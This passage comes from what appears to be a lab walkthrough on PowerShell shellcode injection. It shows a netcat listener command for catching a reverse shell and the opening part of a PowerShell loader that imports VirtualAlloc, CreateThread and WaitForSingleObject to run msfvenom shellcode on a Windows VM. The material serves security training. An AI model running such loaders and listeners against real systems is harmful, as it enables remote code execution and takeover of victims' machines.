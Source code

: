 On the AttackBox, execute the command `nc -nvlp 1111` to start a listener on port `1111` and wait for an incoming connection. This command opens port `1111` and listens for connections, allowing the AttackBox to receive data once a connection is made.

```shell
root@attackbox:~# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111) 
```

On the AttackBox, begin by navigating to the Desktop. Right-click on the `Desktop`, select `Create Document`, and then choose `Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with `msfvenom`.

Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```
